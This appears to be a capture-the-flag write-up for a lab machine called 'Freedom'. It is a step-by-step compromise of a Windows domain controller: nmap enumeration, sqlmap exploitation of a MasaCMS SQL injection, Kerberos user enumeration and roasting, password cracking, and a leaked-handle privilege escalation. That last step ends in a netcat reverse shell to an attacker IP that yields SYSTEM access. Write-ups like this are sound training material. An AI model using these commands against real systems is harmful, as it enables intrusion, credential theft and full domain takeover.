


    	<font size="10">Freedom</font>
		1<sup>st</sup> Dec 2024 / Document No D24.101.33

​		Prepared By: amra

​		Machine Author(s): amra

​		Difficulty: <font color="orange">Medium</font>


# Enumeration

## Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.208 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.129.231.208

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-robots.txt: 6 disallowed entries 
|_/admin/ /core/ /modules/ /config/ /themes/ /plugins/
|_http-title: Did not follow redirect to http://freedom.htb/
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-02 00:37:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: freedom.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freedom.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC

```

The nmap scan reveals a lot of ports open, indicating that we are probably dealing with a Domain Controller. Moreover, we get a hostname `freedom.htb`.

Since we are dealing with a domain controller, let's find out the Fully Qualified Domain Name of the machine.

```bash
nxc smb 10.129.231.208 

SMB         10.129.231.208  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
```

We get that the machine's name is `DC1`, let's edit our hosts file.

```bash
echo "10.129.231.208 DC1.freedom.htb freedom.htb" | sudo tee -a /etc/hosts
```

## Apache - Port 80

Upon visiting `http://freedom.htb`, we are presented with a freedom blog:


Let's navigate to `http://freedom.htb/admin` that `nmap` discovered.



We can see that the CMS powering the blog is [MasaCMS](https://github.com/MasaCMS/MasaCMS). Looking for more information around this CMS, we don't seem able to find any default credentials to try but we can find a fairly recent [CVE](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=34643) for a possible SQLi. Form [this](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS) Github project we can find the vulnerable API endpoint. Let's test it to see if our version is vulnerable.

```bash
curl "http://freedom.htb/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'&previewID=x"

<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
```

We get a 404 error. Let's take a step back and look at one of the blog posts.



We can see, that the `index.cfm` is appended to every blog post. Let's try to add `index.cfm` to our previous request and check if it works.

> Appending index in URLs is actually the default/recommended option for MasaCMS.

```bash
curl "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'&previewID=x"

{"error":{"message":"Unhandled Exception","code":"server_error"<SNIP>}}
```

Our version is vulnerable to SQLi. Let's use SQLMap to dumb the users. First, let's detect the proper SQLi technique.

```bash
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x"   --batch


<SNIP>
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1160 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x\' AND GTID_SUBSET(CONCAT(0x71766b7a71,(SELECT (ELT(7289=7289,1))),0x7176716a71),7289)-- UbPs&previewID=x

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x\' AND (SELECT 8168 FROM (SELECT(SLEEP(5)))erZz)-- yfxw&previewID=x
---
[12:42:53] [INFO] the back-end DBMS is MySQL
```

Now we can start dumping information.

```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x" -D dbMasaCMS -T tusers --columns --batch

+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
<SNIP>
| Fname           | varchar(50)  |
| GroupName       | varchar(255) |
| IMName          | varchar(100) |
| IMService       | varchar(50)  |
| interests       | longtext     |
| isPublic        | int          |
| JobTitle        | varchar(50)  |
| keepPrivate     | tinyint      |
| LastLogin       | datetime     |
| LastUpdate      | datetime     |
| LastUpdateBy    | varchar(50)  |
| LastUpdateByID  | varchar(35)  |
| Lname           | varchar(50)  |
<SNIP>
+-----------------+--------------+
```

If we try to dump the password hashes of each user, none of them will crack. We need to take a different route. Let's dump the first and last name of each user and compile a username list to try against the Domain Controller.

```bash
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x" -D dbMasaCMS -T tusers --dump -C Fname,Lname --batch

+-----------+-------+
| Fname     | Lname |
+-----------+-------+
| Admin     | User  |
| Esmeralda | Tylar |
| George    | Smith |
| Gregory   | Davis |
| Jennifer  | Jones |
| Justin    | Bret  |
+-----------+-------+
```

We create a file `names` that holds the names we dumped and then we will use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to create a wordlist.

```bash
./username-anarchy/username-anarchy --input-file ./names > usernames
```

Then, let's bruteforce possible usernames using `kerbrute`.

```bash
kerbrute -domain freedom.htb -users usernames 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Valid user => e.tylar [NOT PREAUTH]
[*] Valid user => j.bret
[*] No passwords were discovered :'(
```

# Foothold

 We now, have a valid user name on the domain, `e.tylar`.This user, has also Kerberos pre-authentication disabled. 

```bash
impacket-GetNPUsers -no-pass freedom.htb/e.tylar              
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for e.tylar

$krb5asrep$23$e.tylar@FREEDOM.HTB:078b341d8a86d616cbb1d3308f0a218b$555e533fd651d24307d7eaca1e8e5b6f6a41d44e5db4de1b2bf49afb5ab10641addb6613ed0678daac36082e424687172734855a86fe278388528f9f62e7b65217dd1c3289f085bd8f98dde198ffa2c320ff89400545e0ea786a7fcddab99f0ee9428244d9cda3ce21444fbe9695b257e193b9f0946677a263b11e9df9e7ef8d155716291074d4bbdaf90d85031510f301706db75db6cafb88253f4a88bf8f621fa239df59915b392a256ff40cdf7189950a395dfa02bb2aa796d4d85a515153f34fa7c7b6d90b8f71afecd888c5ff75c092d3f1099e0a7b556f5934bbae6cb9ce406a7a92b0163c55b2
```

The user has indeed disable Kerberos pre-authentication. Unfortunately, the ticket is uncrackable so we can't retrieve the clear text password for this user. But, we can use this ticket to request tickets for users that may have SPNs set.

```bash
impacket-GetUserSPNs -no-preauth e.tylar -usersfile usernames freedom.htb/

<SNIP>
$krb5tgs$23$*j.bret$FREEDOM.HTB$j.bret*$064561e621ae2441636c20920a6190cf$4f5a5cee9e56eaf50c20728241f83432339e3b5bc58e8366a44fde54a2a8a1e030962d7bec426addbdeb94a312c00bb669b3e51caec1e65daedc5fffbf0cd57a9da4e3ef25f60aa6395d3f57c9198596c7c6812b77b3bb1f1f2c4fbcf2add93ed212d57f962f74170c3acd6ed111e8d9f0b2e9a50bff7f86cfc072f122a2da29e85d985b9e9804a2015d8ed54fe99ea<SNIP>8c21c94cf598aa76e4066c027a89f5f562b3ebd6b1b708299444be8b2d71557a4dc547a9ed70946764ffab3ca1de00b14d1d4f40ee94c42a1086265b87928c20fbcd9001040ad6595db5addf8e6a192cf58d9771eae1ec5ab35f96869c8618f0d63899aa96b2e933abf523d6678ab3cdb5f4abcbc595ba6a1f0708492746aa6e08143aa7d42a0e6ab
```

Finally, this ticket can be cracked. 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash

swordsoffreedom  (?)
```

Let's use `evil-winrm` and grab the user flag.

```bash
evil-winrm -i freedom.htb -u j.bret -p swordsoffreedom
```

# Privilege Escalation

Let's use [WinPEAS](https://github.com/peass-ng/PEASS-ng/releases/) to enumerate the environment that we are in.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload winPEASx64.exe
*Evil-WinRM* PS C:\Users\j.bret\Documents> .\winPEASx64.exe

<SNIP>
Interesting Services -non Microsoft-

HealthCheck(HealthCheck)[C:\Users\Administrator\Documents\health.exe] - Autoload
<SNIP>
```

We can focus on the fact that there is a non-default service in place called `HealthCheck`. If we look at the `Desktop` of our current user we can see a binary called `HealthCheck.exe`. 

```bash
*Evil-WinRM* PS C:\Users\j.bret\Desktop> ls


    Directory: C:\Users\j.bret\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/25/2024   7:03 AM          17920 HealthCheck.exe
-a----        12/2/2024   3:24 AM             27 user.txt
```

Moreover, the binary of the service and the one on our Desktop are currently running.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Desktop> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
<SNIP>
     72       5      756       3412              6588   0 health
    186      11     4108       8956       0.06   4192   1 HealthCheck
```

Putting everything together, it seems that there is a service running a binary under the Administrator user and that binary launches a binary on our Desktop. To do so, one way is to create a separate thread to the low privilege binary or a new process. Either way, a handle has to be returned in the parent service. If that handle has dangerous privileges we can exploit it to gain Administrator privileges. We can use [this](https://github.com/lab52io/LeakedHandlesFinder) tool to check and possibly auto-exploit such handles. First of all, let's upload [nc64.exe](https://github.com/int0x33/nc.exe/), along with the tool, so that we can get a shell if we manage to exploit a handle.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload nc64.exe
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload Leaked.exe
```

Then, we set up a listener on our local machine.

```bash
rlwrap nc -lvnp 9001
```

Finally, let's try to exploit any possible leaked handle.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> .\Leaked.exe -l -a -u -s -c"c:\\users\\j.bret\\Documents\\nc64.exe -e powershell 10.10.14.65 9001"
```

We get a callback on our listener.

```bash
PS C:\Users\j.bret\Documents> whoami

nt authority\system
```


